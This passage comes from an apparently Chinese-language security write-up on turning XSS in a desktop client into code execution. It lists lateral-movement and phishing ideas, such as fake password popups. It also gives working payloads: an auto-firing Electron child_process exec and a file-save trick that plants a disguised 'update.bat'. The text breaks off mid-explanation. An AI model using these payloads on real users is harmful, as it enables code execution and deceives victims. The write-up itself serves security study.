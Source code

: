 **5. 横向移动与组合攻击**  
- **自定义协议滥用（Deep Link）**  
：  
  
利用myapp://  
协议调用其他应用，结合已知漏洞链扩大攻击面（如启动存在RCE漏洞的PDF阅读器）。  
- **内存漏洞触发**  
：  
  
通过XSS精准覆盖缓冲区，触发客户端依赖库的0day漏洞（如旧版Chromium漏洞）。  
  
**6. 社会工程增强**  
- **高仿系统弹窗**  
：  
  
利用客户端GUI特性伪造系统权限请求窗口（如"输入密码以更新"），诱导用户泄露敏感信息。  
- **本地网络探测**  
：  
  
通过WebRTC  
获取内网IP，扫描局域网设备（如路由器管理界面），结合默认凭据进一步渗透。  
## 曲线救国  
  
一下列举了这么多利用思路，好多我也不会哈哈，不过没关系，遇到了再去利用再去深入学习嘛  
  
于是我尝试看看我这个案例能不能RCE呢……  
  
其实最直接RCE的方式就是，当客户端基于Electron框架且未启用nodeIntegration: false  
等安全配置时，直接就能构造出RCE的payload了，而且可以做到无感RCE，就是不需要用户有过多的交互。  
```
ounter(line
<input style=content-visibility:auto oncontentvisibilityautostatechange="require('child_process').exec('calc.exe')">
```  
  
但是……很遗憾，这个工具不是基于Electron框架开发的，上面的payload不适用。那么就基本无法实现无感RCE了  
  
不过可以这样，曲线救国，实现一个比较鸡肋的"RCE"，就是需要用户的一些交互才能完成。  
  
比如，写入一个bat文件，取名叫什么update.bat，欺骗用户保存bat文件，并点击运行，严格来说不能算真正的RCE，因为客户端的RCE强调无感，我这个只能算曲线救国  
  
我们直接构造一个写入bat文件的payload（但是需要用户手动保存）  
```
ounter(line
<input style=content-visibility:auto oncontentvisibilityautostatechange="(async()=>{const f=await window.showSaveFilePicker({suggestedName:'update.bat',types:[{accept:{'application/bat':['.bat']}}]});const w=await f.createWritable();await w.write('start /min calc.exe');await w.close();})()">
```  
```
ounter(lineounter(lineounter(lineounter(lineounter(lineounter(lineounter(lineounter(lineounter(lineounter(lineounter(line
(async()=>{
  const f = await window.showSaveFilePicker({
    suggestedName: 'update.bat',
    types: [{accept: {'application/bat': ['.bat']}}]
  });
  const w = await f.createWritable(); 
 //创建可写流，f.createWritable()生成写入流，避免一次性加载内容到内存。
  await w.write('start /min calc.exe'); 
//写入恶意命令，start /min calc.exe 会以最小化窗口启动计算器，实际攻击中可替换为恶意脚本
  await w.close();
})()
```  
- 简单分析一下payload的逻辑：  
  